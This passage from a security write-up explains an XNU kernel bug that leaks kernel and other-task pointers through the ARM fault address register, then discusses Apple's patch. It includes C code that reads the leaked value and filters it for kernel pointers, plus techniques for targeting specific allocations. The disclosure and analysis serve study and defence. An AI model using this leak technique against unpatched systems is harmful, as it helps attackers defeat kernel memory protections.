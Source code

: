 
Not only can we use this bug to leak data from the kernel, but we can actually leak data from any task on the system (assuming we can coerce the target task into triggering a memory fault).

## Improving Exploitation

If you were to run the above PoC on an XNU system, you would leak a variety of pointers, both from the kernel and other tasks. However, it's possible to leak data more accurately, under certain conditions. By coercing the target task into triggering the fault at a specific offset within the unmapped page, we can very accurately detect when the correct allocation has been leaked:

```c
/* retrieve exception state -- leaked value is in `far` */
arm_exception_state64_t exception_state = { };
mach_msg_type_number_t exception_count = ARM_EXCEPTION_STATE64_COUNT;
thread_get_state(target_thread, ARM_EXCEPTION_STATE64, (thread_state_t)&exception_state, &exception_count);

uint64_t leak_val = exception_state.__far;

if ((leak_val & (0xffffULL << 48)) == (0xffffULL << 48) /* is it in kenrel? */ &&
    (leak_val & 0x3fff) == 0x1234 /* is it at the offset we're expecting? */)
{
    *kernel_pointer = leak_val - 0x1234;
}
```

Another method of detection is to rely on the object having a pre-known size, and leaking a high number of pointers. You can then use the offset between two sequential allocations (since heap allocations are generally performed in a linear fashion), to determine if you have found the correct object.

## The Fix

Assuming performance is not a priority, there are 3 options that Apple had when fixing this bug:

1. Zero out the `FAR_EL1` register directly after reading it, when an exception (data abort & co) is handled (best option)
2. Only copy relevant registers and state data when an exception is raised (intermediate option)
3. Sanitise `far` in the saved state when an exception is raised, but only in cases where it's unused (worst option)

In typical Apple fashion, they opted for the latter:

```c
void
sleh_synchronous(arm_context_t *context, uint32_t esr, vm_offset_t far)
{
    // [...]
    /* Sanitize FAR (but only if the exception was taken from userspace) */
    switch (class) {
        case ESR_EC_IABORT_EL1:
        case ESR_EC_IABORT_EL0:
            /* If this is a SEA, since we can't trust FnV, just clear FAR from the save area. */
            if (ISS_IA_FSC(ESR_ISS(esr)) == FSC_SYNC_EXT_ABORT) {
                saved_state64(state)->far = 0;
            }
            break;
        case ESR_EC_DABORT_EL1:
        case ESR_EC_DABORT_EL0:
            /* If this is a SEA, since we can't trust FnV, just clear FAR from the save area. */
            if (ISS_DA_FSC(ESR_ISS(esr)) == FSC_SYNC_EXT_ABORT) {
                saved_state64(state)->far = 0;
            }
            break;
        case ESR_EC_WATCHPT_MATCH_EL1:
```